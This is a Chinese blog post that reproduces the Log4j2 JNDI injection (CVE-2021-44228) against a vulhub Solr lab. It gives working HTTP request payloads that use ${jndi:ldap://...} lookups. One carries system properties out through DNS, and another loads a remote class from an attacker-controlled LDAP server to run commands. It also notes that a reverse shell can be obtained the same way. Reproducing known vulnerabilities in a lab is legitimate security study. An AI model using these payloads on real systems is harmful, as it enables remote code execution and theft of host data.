



# Apache Log4j2 lookup JNDI 注入漏洞复现（CVE-2021-44228） - twosmi1e - 博客园

> 原文：[`www.cnblogs.com/twosmi1e/p/15750569.html`](https://www.cnblogs.com/twosmi1e/p/15750569.html)

## 漏洞简介

Apache Log4j 2 是 Java 语言的日志处理套件，使用极为广泛。在其 2.0 到 2.14.1 版本中存在一处 JNDI 注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于${jndi:ldap://evil.com/example}的 lookup 用于进行 JNDI 注入，执行任意代码。

## 漏洞环境

使用 vulhub 的环境 https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228

访问页面


## 漏洞复现

### 使用 dnslog 回显

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: 101.35.121.195:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close 
```



还有其他一些敏感信息可以外带
`${hostName}`
`${sys:user.dir}`
`${sys:java.version}`
`${java:os}`

### jndi 注入

用 jndi exploit 去做远程恶意类加载


执行`touch /tmp/success`
发送请求包

```
GET /solr/admin/cores?action=${jndi:ldap://1.15.177.22:1389/oltb2u} HTTP/1.1
Host: 101.35.121.195:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close 
```

可以看到命令已经成功执行


同理我们可以这样去反弹 shell
用 jndi 注入 bash 反弹 shell 的恶意类，反弹 shell 命令需要编码


然后去请求触发就可以了


## 漏洞分析

分析和 CodeQL 的调试之后再补下